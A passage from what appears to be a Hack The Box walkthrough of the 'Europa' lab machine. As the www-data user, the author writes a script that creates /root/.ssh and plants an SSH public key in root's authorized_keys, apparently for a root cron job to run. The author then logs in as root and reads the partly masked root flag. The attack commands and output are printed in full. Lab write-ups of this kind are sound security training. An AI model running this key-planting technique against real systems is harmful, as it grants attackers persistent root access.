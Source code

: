     www-data@europa:/var/www/cmd$ echo -e '#!/bin/bash\n\nmkdir /root/.ssh\necho "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > /root/.ssh/authorized_keys' > logcleared.sh 
    www-data@europa:/var/www/cmd$ chmod +x logcleared.sh
    

Now I’ll wait for the next minute to pass, and then connect with SSH as root:

    
    
    root@kali# ssh -i ~/keys/ed25519_gen root@10.10.10.22
    Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-81-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    0 packages can be updated.
    0 updates are security updates.
    
    
    Last login: Fri Jan 22 15:53:41 2021 from 10.10.14.11
    root@europa:~#
    

And grab `root.txt`:

    
    
    root@europa:~# cat root.txt
    7f19438b************************
    

[](/2021/02/02/htb-europa.html)

